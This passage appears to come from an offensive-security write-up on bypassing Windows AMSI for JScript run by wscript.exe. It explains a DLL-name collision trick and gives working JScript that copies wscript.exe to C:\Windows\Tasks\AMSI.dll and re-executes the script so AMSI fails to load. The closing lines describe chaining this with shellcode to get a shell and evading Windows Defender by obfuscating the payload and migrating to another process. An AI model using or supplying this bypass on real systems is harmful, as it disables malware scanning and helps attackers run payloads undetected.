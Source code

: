 ## Executable or DLL?
While we cannot locate any of the structures to interact with the Win32 APIs from Jscript, we know that AMSI requires AMSI.DLL. If we could prevent AMSI.DLL from loading or load our own version of it, we could force the AMSI implementation in wscript.exe to produce an error and abort.

The fact is, the AMSI.DLL is loaded by a call to _LoadLibraryExW_ with it's calling function _COleScript::Initialize_.

According to the _LoadLibraryExW_ function prototype, the first argument is the name of the DLL to load.
(in our case "amsi.dll")

We could hijack this by putting our own malicious dll in a writable location, however, _LoadLibraryExW_ can accept additional arguments and the third argument modifies the function's default behavior. In this case, R8 (the third argument) is set to 0x800.
This is equivalent to the enum _LOAD_LIBRARY_SEARCH_SYSTEM32_, which forces the function to search in the C:\\Windows\\System32 directory first.
This prevents a DLL hijacking attack.

However, we have a work around.

If a process named "amsi.dll" tries to load a DLL of the same name, _LoadLibraryExW_ will report that it's already in memory and abort the load to improve efficiency.
Which means any attempts to use the dll will fail, causing AMSI to be disabled.
However, double-clicking or running a file with a __.dll__ extension will fail since DLLs are normally loaded, not executed.

If we instead use the _CreateProcess_ Win32 API, the file extension is ignored and the file header would be parsed to determine if it is a valid executable.

We will use the WScript.Shell object in jscript, to call this API.

Our code will be as follows:
```JavaScript
var filesys= new ActiveXObject("Scripting.FileSystemObject");
var sh = new ActiveXObject('WScript.Shell');
try
{
	if(filesys.FileExists("C:\\Windows\\Tasks\\AMSI.dll")==0)
	{
		throw new Error(1, '');
	}
}
catch(e)
{
	filesys.CopyFile("C:\\Windows\\System32\\wscript.exe", "C:\\Windows\\Tasks\\AMSI.dll");
	sh.Exec("C:\\Windows\\Tasks\\AMSI.dll -e:{F414C262-6AC0-11CF-B6D1-00AA00BBBB58} "+WScript.ScriptFullName);
	WScript.Quit(1);
}
```

Even though prepending this to our shellcode, we get a shell, it is immidiately killed by Windows defender, we can work through this, by obfuscating, and immidiately migrating our shell to another process.

